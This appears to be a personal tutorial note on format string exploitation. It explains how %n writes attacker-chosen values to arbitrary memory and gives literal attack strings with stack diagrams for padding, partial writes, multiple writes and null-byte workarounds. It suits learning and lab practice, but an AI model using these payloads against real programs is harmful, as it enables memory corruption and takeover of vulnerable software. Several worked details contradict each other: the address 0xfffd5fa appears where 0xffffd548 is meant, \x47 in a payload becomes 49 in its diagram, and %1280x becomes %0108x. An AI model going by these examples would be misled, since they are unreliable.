 # Writing to arbitrary memory locations with format strings

The format specifier `%n` writes the number of bytes written so far from the start of the string to the address specified by the argument. Using the same format string vulnerability, this allows us to write data to a user-controlled memory location.

## Attack structure

The initial structure is similar to arbitrary memory read with format strings. However, we replace the last format specifier with `%n`.

`"000\x48\xd5\xff\xff %x %x %x %x %n"`

### Writing values

Instead of reading from the address `0xffffd548`, the format string will write the number of bytes to `0xfffd5fa` instead.

```
       0x03 0x02 0x01 0x00
0x00: |    |    |    |    | <- format string
0x04: |    |    |    |    | <- %x
0x08: |    |    |    |    | <- %x
0x0c: |    |    |    |    | <- %x
       0x13 0x12 0x11 0x10
0x10: | 30 | 30 | 30 |    | <- %x
       0x17 0x16 0x15 0x14
0x14: | ff | ff | d5 | 48 | <- %n
```

## Controlling the exact value written

The number of bytes written is difficult to control, as the output of the padding `%x` depends on the dynamic values during runtime.

* `0x00000001` would be printed with 1 byte `1`
* `0x10000000` would be printed with 8 bytes `10000000`

There are a few strategies available to control the value written

### Run, check, and increment

One strategy is to run the program under gdb and determine the number of bytes so far by replacing `%n` with `%d`. Then, as long as the number of bytes so far is smaller than the target value, we can pad the output by adding zero-padding to one of the `%x` format specifiers.

`"000\x48\xd5\xff\xff %x %x %x %020x %n"`

```
       0x03 0x02 0x01 0x00
0x00: |    |    |    |    | <- format string
0x04: |    |    |    |    | <- %x
0x08: |    |    |    |    | <- %x
0x0c: |    |    |    |    | <- %x
       0x13 0x12 0x11 0x10
0x10: | 30 | 30 | 30 |    | <- %020x
       0x17 0x16 0x15 0x14
0x14: | ff | ff | d5 | 48 | <- %n
```

The value `20 + i` is written to `0xffffd548`, where `i` is dynamically determined during runtime by the values on the stack.

### Write to the `&target_addr - 1` for small values

If a small target value `n` is required, we can write `n * 256` to `&target_addr - 1`.

Since it is highly unlikely for more than 256 bytes to be written by the format string, the arbitrary number of bytes written will only affect the byte at `&target_addr - 1`. `&target_addr` will then receive the value `(n * 256) >> 8 = n`.

Writing the value 5 to `0xffffd548`, `5 * 256 = 1280 = 0x0500`

`"000\x47\xd5\xff\xff %x %x %x %1280x %n"`

```
       0x03 0x02 0x01 0x00
0x00: |    |    |    |    | <- format string
0x04: |    |    |    |    | <- %x
0x08: |    |    |    |    | <- %x
0x0c: |    |    |    |    | <- %x
       0x13 0x12 0x11 0x10
0x10: | 30 | 30 | 30 |    | <- %0108x
       0x17 0x16 0x15 0x14
0x14: | ff | ff | d5 | 49 | <- %n
               ...
       0x47 0x46 0x45 0x44
0x44: | 45 |    |    |    |
       0x4b 0x4a 0x49 0x48
0x48: |    |    |    | 05 |
```

## Controlling the number of bytes written

`%n` can be prefixed with `h` to write 2 bytes only or `hh` to write 1 byte only. This can be useful if it is critical that no other memory is overwritten.

## Multiple writes

It is possible to write multiple values if and only if the values are increasing in order.

Create the attack string as per normal, with the second target address injected **4 bytes after the first address**.

Write the smaller value to the target address with `%n`, then add a `%x` specifier to increment the number of bytes written so far to the second target value. This specifier will read the 4 injected bytes.

Lastly, use a second `%n` to write to the second target address.

## 00 byte

If we need to write to a target address `&target_addr` with the null byte `\x00`, then our format string will break as the null byte also represents the end of the string.

In this case, one workaround is to write to the value at `&target_addr + 1` then `&target_addr - 1` to piece the information together.

## Caveats

One common mistake I've made so far is that my attack string is larger than the buffer can hold.
